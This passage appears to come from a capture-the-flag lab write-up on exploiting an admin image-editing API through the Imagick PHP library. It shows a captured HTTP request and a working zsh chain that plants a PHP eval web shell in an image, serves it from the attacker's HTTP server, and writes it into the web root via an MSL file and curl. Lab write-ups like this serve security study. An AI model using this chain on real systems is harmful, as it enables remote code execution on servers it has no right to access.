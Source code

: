The announcement mentioned an image editing feature and dropped a reference to the documentation for [Imagick](https://www.php.net/manual/en/class.imagick.php), an image processing library for PHP. We proceeded to visit the _Images_ tab then selected an image to edit.

![Image editing page](web-admin-image-edit.png)

Below the image, we found a table containing key-value pairs. The _path_ attribute seems to disclose the website's absolute path on the local filesystem. With the image path known, we can deduce that the primary web root is located at `/var/www/html/intentions`{:.filepath}. This information could become relevant when exploiting file access vulnerabilities.

![Image details](web-admin-image-details.png)

Next, we applied an effect to the image and observed the associated API call via BurpSuite.

```http
POST /api/v2/admin/image/modify HTTP/1.1
Host: 10.10.11.220
Content-Type: application/json
Cookie: token=[REDACTED]
Content-Length: 119

{"path":"/var/www/html/intentions/storage/app/public/animals/dickens-lin-Nr7QqJIP8Do-unsplash.jpg","effect":"charcoal"}
```
{:.nolineno}

We inferred that this endpoint uses the previously mentioned Imagick PHP library to transform the specified image. We eventually came across [this article](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) while in search of potential exploits. The article highlights an exploit chain that could impact applications that call the Imagick class constructor with untrusted input. We proceeded to follow the exploit guide, making a few adjustments along the way.

```zsh
# Setup variables
srvport=8080
srvhost="$lhost"
luri="http://$srvhost:$srvport"
payload='<?php eval($_POST[7]);?>'

# Create exploit files
mkdir exploit
convert xc:white -set Copyright "$payload" exploit/nS3icw.png
cat << EOF > exploit/cWKI3g.msl
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="$luri/nS3icw.png" />
 <write filename="/var/www/html/intentions/storage/app/public/nS3icw.php" />
</image>
EOF

# Start HTTP server
python3 -m http.server -b $lhost -d exploit $srvport &> exploit-server.log &

# Trigger file upload
curl "http://$rhost/api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=_" \
  -b "token=$admin_token" -F 'exec=@exploit/cWKI3g.msl'
```
{:file="bryan@redteam ➤ zsh" .nolineno}
